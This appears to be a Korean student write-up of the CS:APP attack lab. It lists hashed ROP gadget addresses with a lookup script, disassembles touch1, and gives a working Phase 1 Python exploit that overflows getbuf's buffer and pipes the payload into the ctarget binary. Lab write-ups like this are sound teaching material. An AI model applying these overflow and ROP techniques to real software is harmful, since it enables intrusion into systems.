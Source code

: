 로컬에서 867개의 ROP gadget을 발견할 수 있었으며 (이 중 실제로 사용 가능한 것은 극히 일부일 것이다), 이 정보를 `(sha256(gadget), addr)` 형태로 저장한 데이터를 `programming2.postech.ac.kr`에서 사용할 수 있도록 하였다.

```text
2533e31ef6eee456596ae29f0249e2526bfcd493c2a021ad701db4451dddd32c 4210824
8edab5d544d6710073d63a0031d819b25e3e554607587a284365044d0ac34f22 4197703
c81f53951042554b495c1e01109e09f9c263f99f97385122e4606a06e69b530a 4210724
9a84012ec3011264515b66ceac872e0d7ca46e8eb3194f1676059634caefcf4f 4197378
...(후략)
```

```py
import hashlib

Gadgets = {}
with open("Gadgets_Dict.txt", "r") as f:
    G = f.read().splitlines()
    G = [dat.split() for dat in G]
    for hsh, addr in G:
        Gadgets[hsh] = int(addr)
        
def find_gadget_addr(x: str) -> int:
    return Gadgets.get(hashlib.sha256(x.encode('ascii')).hexdigest())

>>> find_gadget_addr("pop rsp ; ret")
4200404
```



## Phase 1

In `touch1` of `ctarget`:

```assembly
gef➤  disas touch1
Dump of assembler code for function touch1:
   0x00000000004016d6 <+0>:     sub    rsp,0x8
   0x00000000004016da <+4>:     mov    DWORD PTR [rip+0x202e18],0x1        # 0x6044fc <vlevel>
   0x00000000004016e4 <+14>:    mov    edi,0x402e3a
   0x00000000004016e9 <+19>:    call   0x400c50 <puts@plt>
   0x00000000004016ee <+24>:    mov    edi,0x1
   0x00000000004016f3 <+29>:    call   0x401ae9 <validate>
   0x00000000004016f8 <+34>:    mov    edi,0x0
   0x00000000004016fd <+39>:    call   0x400df0 <exit@plt>
End of assembler dump.
```

`touch1` 의 인자로 전달되는 것이 없으니, `getbuf`의 buffer를 overflow하여 Return address를 `touch1`로 맞춰 주면 된다. Exploit code는 다음과 같다.

```py
def phase_1():
    TOUCH_1_ADDR = 0x4016d6
    Ex = b''
    Ex = Ex.ljust(GETBUF_STACK_OFFSET, b'A')	# Buffer filling
    Ex += p64(TOUCH_1_ADDR)						# Return address

    with open("exploit.txt", 'w') as f:
        f.write(byte2sphex(Ex))

    os.system("./hex2raw < exploit.txt | ./ctarget")
```
